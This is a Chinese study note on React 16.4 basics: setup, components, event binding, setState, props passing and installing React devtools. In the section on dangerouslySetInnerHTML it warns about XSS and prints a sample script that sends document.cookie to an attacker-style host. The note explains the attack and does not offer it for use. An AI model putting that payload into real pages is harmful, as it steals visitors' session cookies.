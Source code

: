 # React16.4（简书项目）

一.安装

    1.npm install -g create-react-app
    2.create-react-app reactDemo
    

二.文件目录

    1. src/index.js 为入口文件
    
    
三.基础用法

    1. import React ,{ Component , Fragment } from 'react';   /* Fragment为占位符，在页面上不会显示这个元素 */
        class (定义一个组件类) extends Component {
          constructor(props){
            super(props);

            /* 定义状态 */
            this.state = {
              inputValue : "",
              list : []
            }
          }

          render() {
            return (
              <Fragment>
              </Fragment>
            );
          }
        }
      
    2. 事件绑定

         在 constructor 中设置 bind this
         栗子 ： this.handleBtnClick = this.handleBtnClick.bind(this);

    3. react中 类名class要写成className , for 要写成 htmlFor, <label htmlFor="inputArea">请输入内容</label>
    
    4. 设置状态

         用法一 ： 
           this.setState({
            inputValue : ""
           });

         用法二 : 
           this.setState( (preState) => {
            return {
              list : [ ...this.State.list,...this.state.inputValue ],
              inputValue : ""
            };
           });

         用法三 : 
           /* preState 可以代替 this.state */
           this.setState( (preState) => ({
             list : [ ...preState.list,...preState.inputValue ],
             inputValue : "" 
           }))

    5. 父子组件通信
         
         ps ：react采用单项数据流，绝对不可以将父组件的 state 传递给子组件。
         
         假设这是一个子组件 <TodoItem /> , 那么我们可以这样将父组件的数据传给它 : 
            <TodoItem content = {item} /> // TodoItem 组件可以通过 this.props.content 拿到数据
         传递方法 : 
            ps : 一定要 记得 bind(this)
            <TodoItem  testBtn = {this.btnAlert.bind(this)} /> // TodoItem 组件可以通过 this.props.tesBtn() 调用方法
           
            子组件get属性的时候，可以将属性提取出来，结构赋值需要加 {}
            例如 : 
                const { testBtn } = this.props ;
                这样就可以直接使用 testBtn 这个方法了 !!
    
    6. dangerouslySetInnerHTML
         
         ps ：不合时宜的使用 innerHTML 可能会导致 cross-site scripting (XSS) 攻击。 
              净化用户的输入来显示的时候，经常会出现错误，不合适的净化也是导致网页攻击的原因之一。
              dangerouslySetInnerHTML 这个 prop 的命名是故意这么设计的，以此来警告.
              它的 prop 值(一个对象而不是字符串）应该被用来表明净化后的数据。
         
         dangerouslySetInnerHTML = {{__html : this.state.html}}
         
         ps : 恶意脚本 ，获取网页cookie
         <script>
           document.write('<img src=http://www.hackerhome.com/grabber.jsp?msg=' + document.cookie+' width=16 height=16 border=0 />');
         </script>
    
    7.下载React-developer-tools 辅助工具
        https://github.com/facebook/react-devtools 在github上下载 .zip 安装包
        进入到react-devtools-master文件夹，用npm安装依赖 ： npm --registry https://registry.npm.taobao.org install
        安装依赖成功后，我们便可以打包一份扩展程序出来 ： npm run build:extension:chrome 
        项目目录中生成一个新的文件夹，react-devtools -> shells -> chrome -> build -> unpacked文件夹
        打开chrome扩展程序chrome://extensions/ ，加载已解压的扩展程序，选择第3步中的生成的unpacked文件夹
        
         
       
       
       
       
       
       
       
       
       
       
       
       
       
       
       
       
       
       
       
       
       
       
       
       
       
       
       
       
       
       
       
       
       
       
       
    
      
